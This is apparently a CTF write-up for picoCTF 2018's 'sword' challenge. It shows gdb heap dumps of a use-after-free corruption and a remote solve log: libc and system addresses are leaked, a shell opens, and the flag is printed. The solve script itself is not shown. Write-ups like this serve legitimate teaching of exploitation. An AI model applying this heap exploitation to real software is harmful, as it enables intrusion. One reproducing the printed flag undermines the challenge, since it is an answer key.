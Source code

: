 # sword - Points: 800 - (Solves: 78)

Can you spawn a [shell][1] and get the flag?
Connect with nc 2018shell2.picoctf.com 43469.
[Source][2].
[libc.so.6][3]

[1]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/sword
[2]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/sword.c
[3]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/libc.so.6

## Hints

- ever heard of use after free?
- Make sure you are run/debug with the provided libc on the shell server

---

```txt
% ctags -x --c-kinds=vd sword.c
ALARM_TIME       macro        11 sword.c          #define ALARM_TIME 30
FORGE_TIME       macro        10 sword.c          #define FORGE_TIME 2
MAX_SWORD_LEN    macro         9 sword.c          #define MAX_SWORD_LEN 0x100
MAX_SWORD_NUM    macro         7 sword.c          #define MAX_SWORD_NUM 6
READ_INT_BUF_LEN macro         8 sword.c          #define READ_INT_BUF_LEN 32
sword_lists      variable     27 sword.c          struct sword_list_s sword_lists[MAX_SWORD_NUM];
```

Create 1st chunks and "harden" it with 256 length character 'A'.

```py
--- sword_lists ------------------------------------
$1 = {{
    is_used = 1,
    sword = 0x7d7010
  }, {
    is_used = 1,
    sword = 0x7d7040
  }, {
    is_used = 0,
    sword = 0x0
  }, {
    is_used = 0,
    sword = 0x0
  }, {
    is_used = 0,
    sword = 0x0
  }, {
    is_used = 0,
    sword = 0x0
  }}
--- heap mapping -----------------------------------
0x7d7010:       0x0000000000000000      0x00000000007d7040
0x7d7020:       0x0000000000400b9d      0x0000000000000000
0x7d7030:       0x0000000000000000      0x0000000000000031
0x7d7040:       0x4141414141414141      0x0000000000602020
0x7d7050:       0x4141414141414141      0x4141414100000000
0x7d7060:       0x4141414141414141      0x0000000000020fa1
0x7d7070:       0x4141414141414141      0x4141414141414141
0x7d7080:       0x4141414141414141      0x4141414141414141
0x7d7090:       0x4141414141414141      0x4141414141414141
0x7d70a0:       0x4141414141414141      0x4141414141414141
0x7d70b0:       0x4141414141414141      0x4141414141414141
0x7d70c0:       0x4141414141414141      0x4141414141414141
0x7d70d0:       0x4141414141414141      0x4141414141414141
0x7d70e0:       0x4141414141414141      0x4141414141414141
0x7d70f0:       0x4141414141414141      0x4141414141414141
0x7d7100:       0x4141414141414141      0x4141414141414141
(gdb) p *sword_lists[1].sword
$5 = {
  name_len = 1094795585,
  weight = 1094795585,
  sword_name = 0x602020 "\220\326\024ǅ\177",
  use_sword = 0x4141414141414141,
  is_hardened = 0
}
```

Result:

```sh
% py solve.py REMOTE
[*] '/home/zzzz/pico18/pwn/sword/sword'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
[*] '/home/zzzz/pico18/pwn/sword/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell2.picoctf.com on port 43469: Done
[*] puts @ plt    : 0x7fcf4aa51690
[*] libc          : 0x7fcf4a9e2000
[*] bin_sh        : 0x7fcf4ab6ed57
[*] system        : 0x7fcf4aa27390
[*] Switching to interactive mode
total 1920
drwxr-x---   2 hacksports sword_0       4096 Sep 28 08:29 .
drwxr-x--x 576 root       root         53248 Sep 30 03:50 ..
-r--r-----   1 hacksports sword_0         45 Sep 28 15:12 flag.txt
-rwxr-sr-x   1 hacksports sword_0    1868984 Sep 28 15:08 libc.so.6
-rwxr-sr-x   1 hacksports sword_0      18080 Sep 28 15:12 sword
-rw-rw-r--   1 hacksports hacksports    6358 Sep 28 15:12 sword.c
-rwxr-sr-x   1 hacksports sword_0        109 Sep 28 15:12 xinet_startup.sh
$ cat flag.txt
picoCTF{usE_aFt3R_fr3e_1s_aN_1ssu3_05365660}
$
```
